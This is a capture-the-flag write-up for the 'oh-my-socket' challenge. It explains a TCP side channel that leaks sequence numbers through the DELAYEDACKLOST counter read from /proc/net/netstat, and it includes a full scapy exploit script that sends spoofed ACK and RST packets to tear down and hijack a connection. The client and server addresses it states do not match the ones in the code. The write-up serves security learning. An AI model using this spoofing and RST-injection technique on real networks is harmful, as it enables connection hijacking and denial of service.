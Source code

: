 # oh-my-socket-EN

This is a challege about TCP side channel. Idea comes from several papers about TCP side channel written by Mr. Qian Zhiyun. You can go to [Mr. Qian's homepage](https://www.cs.ucr.edu/~zhiyunq/publications.html) if you are interested. Let's take a look at this challege first.

There are three containers in the given docker files. One client host and the server host have established TCP communication. After establishing the communication, both of them are in the waiting state. There is no data packet sent between them. The server host has a flag. Sending the character `*ctf` to the server can get the flag. At the same time, the client host also provides a function of arbitrary file reading. The third host provides the function of executing any Python file, and installs the scapy Library in advance.

There are the following information: client IP (172.21.0.2), client port (7775), server IP (172.21.0.2), server port (21587), any file read on the client, any code execution on a machine with the same subnet pre installed with the scape library.

In fact, the idea is more direct now. Find a way to interrupt the communication between the client and the server, and then send a `*ctf` on the connection with the server to get the flag. The most direct way is to construct RST attack. Now that we have all the IP and port of communication, we just need to determine the seq value. Obviously, two minutes of brute force seq is not enough. We need to find a more ingenious way to find the seq value.

According to the side channel method mentioned in the above paper, when we disguise as a server to send a packet to a client, if the seq value of the packet sent this time is less than the expected seq value to be received, a timer DELAYEDACKLOST related to TCP in Linux operating system will be increased by 1, and this timer can be found in `/proc/net/netstat`, then our attack plan is clear, disguised as a server, send communication packets to the client, then it read the value of the DELAYEDACKLOST value, if the timer is increased by one, it means that the seq value we sent is less than the expected one. In this way, the expected range of seq value can be determined in a very fast time, and then it sends RST packets to the server host to interrupt the communication. Finally, it connects to the server and gets the flag.

This is my exp, and it maybe work for you.

```
from scapy.all import *
import requests
from socket import *


def send_ack(seq):
    TCPLayer = TCP(sport=21587, dport=7775, flags='A', seq=seq, ack=3521354383)
    IPLayer = IP(src='172.21.0.2',dst='172.21.0.3')
    data = 'flag'
    pkt = IPLayer/TCPLayer/data
    send(pkt, verbose=0)


def send_bye(seq):
    TCPLayer = TCP(sport=7775, dport=21587, flags='A', seq=seq, ack=3521354383)
    IPLayer = IP(src='172.21.0.3',dst='172.21.0.2')
    data = 'flag'
    pkt = IPLayer/TCPLayer/data
    send(pkt, verbose=0)


def get_num():
    url = 'http://172.21.0.3:5000/file?name=/proc/net/netstat'
    r = requests.get(url=url)
    data = r.text.split('\n')[1]
    num = data.split(' ')[19]
    return num


def send_rst(seq):
    TCPLayer = TCP(sport=21587, dport=7775, flags='R', seq=seq, ack=3521354383)
    IPLayer = IP(src='172.21.0.2', dst='172.21.0.3')
    data = 'flag'
    pkt = IPLayer / TCPLayer / data
    send(pkt, verbose=0)


def connect():
    HOST = '172.21.0.2'
    PORT = 21587
    BUFSIZ = 1024
    ADDR = (HOST, PORT)

    tcp_socket = socket(AF_INET, SOCK_STREAM)
    tcp_socket.connect(ADDR)
    data = '*ctf'
    tcp_socket.send(data.encode())
    resp = tcp_socket.recv(BUFSIZ)
    if resp:
        print(resp.decode('utf-8'))

    tcp_socket.close()

min = 0
max = 4294967296
a = int(get_num())

while abs(max - min) > 1:
    mid = (max + min) // 2
    send_ack(mid)
    num = int(get_num())

    if num - a == 1:
        min = mid
        a = num
    else:
        max = mid

ans = max

# start to rst attack
for i in range(ans - 30, ans + 30):
    send_rst(i)

# start connect to server
send_bye(ans)
connect()
```